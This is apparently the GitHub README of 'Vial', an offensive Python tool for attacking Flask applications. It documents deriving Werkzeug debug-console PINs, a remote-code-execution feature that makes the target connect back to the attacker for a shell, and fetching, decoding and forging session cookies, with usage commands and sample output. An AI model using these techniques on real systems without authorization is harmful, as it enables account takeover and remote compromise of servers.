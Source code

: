 # The Vial Project

<p align="center">
    <a href="https://github.com/CopernicusPY/vial/stargazers"><img src="https://img.shields.io/github/stars/CopernicusPY/vial?colorA=363a4f&colorB=b7bdf8&style=for-the-badge"></a>
    <a href="https://github.com/CopernicusPY/vial/issues"><img src="https://img.shields.io/github/issues/CopernicusPY/vial?colorA=363a4f&colorB=f5a97f&style=for-the-badge"></a>
    <a href="https://github.com/CopernicusPY/vial/contributors"><img src="https://img.shields.io/github/contributors/CopernicusPY/vial?colorA=363a4f&colorB=a6da95&style=for-the-badge"></a>
</p>
Vial is a `blazing fast python framework` focused on exploiting [Flask](https://flask.palletsprojects.com/en/2.2.x/) applications. 

It allows efficient session cookie ["forging"](https://en.m.wikipedia.org/wiki/Session_hijacking) and decoding 

(Can be useful for understanding the applications structure). 

It also makes it possible to automatically obtain and bruteforce [session](https://flask.palletsprojects.com/en/2.2.x/quickstart/#sessions) keys.

## Introducing: PIN generation

Stop wasting your time gathering *this* and *that* around your victim's application.
With **Vial**'s new feature you can just sit back and it will do the heavy lifting for you (*at least that's the goal*).
**Vial** now comes with a default configuration file (found under `src/vial/config.toml`)
which contains a list of possible public bits which are required to generate the PIN.
Now, if you already know the private bits then good for you! Just fill the `config.toml` and you are good to go.
I plan on exploiting arbitrary file read in order to automatically obtain private bits for you (we people are lazy).
Read more below (see Usage).

## Introducing: Remote Code Execution

**Vial**'s new feature is the remote code execution utility that abuses [Werkzeug](https://werkzeug.palletsprojects.com/en/2.2.x/)'s [debug console](https://werkzeug.palletsprojects.com/en/2.2.x/debug/), when left activated in a production environment. 

The debugger's console is sometimes protected by a PIN which is generated in the servers side in a [deterministic](https://en.m.wikipedia.org/wiki/Deterministic_algorithm) way using a combination of public and possibly non-public information of the server/website project itself. 

To reverse the PIN these "secret" and "public" bits are required although can be obtained by exploiting other vulnerabilities such as **arbitary file read**/**path traversal** or through phishing campaigns (less common).

**Vial** also accepts already obtained application PIN's. After collecting the PIN it sends a malicious request to the target forcing him to connect to a previously started TCP Server giving the attacker a shell. 

(This can be achieved through manually interacting with the web browser although its better to just stay in your terminal isn't it?)

# Usage

Vial runs as a `python module`.

For a list of all possible options, run the following command

>$ python -m vial

## (NEW) PIN generation
To generate a Werkzeug **PIN** from a configuration file you can use the **PIN** mode.
The `--config/-c` parameter is mandatory for the mode to work. If not provided, vial will throw a critical error and exit.

> **NOTE**
> The configuration file must **STRICTLY** follow the structure of the default. 
> Please do not create your own configuration file if you are not sure and just stick to editing the default one.

```bash
$ python -m vial --config <path/to/config.toml
[?] Select an action [encode/decode/pin]: pin
[17:00:00] INFO     Using config -> config.toml:                                                               utils.py:196
                    {'usernames': ['alice'], 'modnames': ['flask.app', 'werkzeug.debug'], 'appnames':                      
                    ['wsgi_app', 'DebugApplication', 'Flask'], 'paths': [''], 'platform': '', 'node_uuid':                 
                    [''], 'machine_id': ['']}                                                                              
                           Werkzeug Possible PINs                            
┏━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ PINs        ┃ Combinations                                                ┃
┡━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ 145-111-627 │ ('alice', 'flask.app', 'wsgi_app', '', '', '')              │
│ 492-601-742 │ ('alice', 'flask.app', 'DebugApplication', '', '', '')      │
│ 492-117-935 │ ('alice', 'flask.app', 'Flask', '', '', '')                 │
│ 176-573-905 │ ('alice', 'werkzeug.debug', 'wsgi_app', '', '', '')         │
│ 115-518-024 │ ('alice', 'werkzeug.debug', 'DebugApplication', '', '', '') │
│ 459-034-107 │ ('alice', 'werkzeug.debug', 'Flask', '', '', '')            │
└─────────────┴─────────────────────────────────────────────────────────────┘
```

## Fetching and Decoding session cookies

It is possible to locally decode session data since Flask cookies are **signed** rather than **encrypted**. 
For this you can select the `decode`  mode.

Session cookies can be obtained by inspecting HTTP requests using a proxy. The default name for the cookies is simply, `"session"`.

```bash
$ python -m vial
[?] Select an action [decode/encode] decode 
[?] Enter the session cookie eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6ZmFsc2UsImlhdCI6MTY3MDc5MDQyNn0.X0kPhJtL7koucxI_aRBaTee8LoTb23TaV9YteTSb9PU

{"loggedIn": false} 
```

You can also use Vial's automatic session fetching utility by passing the `--from` argument.  

> **Note** 

> Not all pages of a web application return a session.  

> Make sure to pass a **URL** that it does. 

>$ python -m vial --from "https://example.com/login" 

```bash
[?] Select an action [decode/encode] decode 
[INFO] Server returned HTTP 302 (FOUND)  
[INFO] Succesfully fetched session cookie: 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6ZmFsc2UsImlhdCI6MTY3MDc5MDQyNn0.X0kPhJtL7koucxI_aRBaTee8LoTb23TaV9YteTSb9PU 

{"loggedIn": false} 
```

## Signing (Session Forging)

Once you've obtained the server's secret key that was used to encode the session data, you'll be able to forge your own. For this, you can use the `encode` mode.

```bash
$ python -m vial
[?] Select an action [decode/encode] encode
[?] Enter the session data to encode "{'loggedIn': True}"
[?] Enter the secret key secret-key
[INFO] Succesfully forged the cookie

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dnZWRJbiI6dHJ1ZSwiaWF0IjoxNjcwNzkxNTQxfQ.c1HQAnTKOcA7chGpgwEndM4kuA2O-ap_nJWdLNmijw0
```
